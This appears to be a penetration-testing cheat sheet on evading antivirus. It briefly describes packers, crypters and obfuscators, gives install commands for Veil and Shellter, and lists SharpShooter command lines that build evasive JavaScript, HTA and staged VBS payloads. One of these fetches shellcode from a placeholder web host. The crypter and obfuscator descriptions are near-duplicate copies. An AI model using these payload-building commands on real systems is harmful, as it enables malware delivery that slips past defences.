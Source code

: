 # Bypassing AV

### Packers <a id="veil-framework"></a>

Reduces the file of an executable. The functionally is equivalent with a complete new binary structure. The result is a new signature therefore bypassing OLDER AV's 

### Crypters <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk. The decryption happens in memory. This technique can be very effective against AVs.

### Obfuscators <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk and the decryption happens in memory. This technique can be very effective against AV.  However, obfuscators are often used in scripts whereas crypters are often used in binaries.

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)




